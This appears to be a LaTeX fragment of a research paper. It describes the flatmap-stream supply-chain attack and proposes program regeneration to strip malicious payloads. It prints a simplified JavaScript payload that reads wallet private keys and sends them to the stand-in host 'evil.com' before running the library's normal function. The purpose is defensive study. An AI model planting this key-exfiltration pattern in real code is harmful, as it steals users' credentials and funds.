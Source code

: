 \documentclass[nonacm,sigplan]{acmart}
\newcommand{\heading}[1]{\vspace{2pt}\noindent\textbf{\emph{#1}}:\enspace}
\newcommand{\ttt}[1]{\texttt{#1}\xspace}
\begin{document}
\heading{A compromised JavaScript library}
The \ttt{flatmap-stream} library was implicated in a high-profile
supply-chain attack that exfiltrated Bitcoin credentials~\cite{ev:eurosec:2022}.
While the library preserved
its client-observable behavior, an malicious payload inserted in the module's code by an adversarial developer accessed the filesystem, network, and
global state under specific conditions.
Specifically, 
the library would
(1) detect whether it is running under the dependency tree of a popular bitcoin wallet
application~\cite{copay} and on the live bitcoin network,
(2) collect the user's private keys, 
(3) send those to an attacker-controlled machine,
and finally (4) perform its benign functionality.
Program regeneration can automatically remove such malicious payloads
using the insight that the insight that they retain the original library's functionality,
while performing a side-effectful attack on-the-side~\cite{harp:ccs:2021}.
This approach can secure the component even when the attack is highly obfuscated and 
activates under precise conditions.
The slightly simplified source code of the compromised library showing the malicious payload and a final
line that performs the benign \ttt{flatmap} functionality is shown below:
\begin{verbatim}
module.exports = function (stream, fn) {
 if (process.env.PRODUCTION) {
  const priv = copay.getKeys()?.[0]?.priv;
  if (priv && wallet.balance > 0) {
    http.request({ hostname: 'evil.com' })
        .send({ priv });
  }} return flatten(steam).apply(fn); };
\end{verbatim}
\end{document}
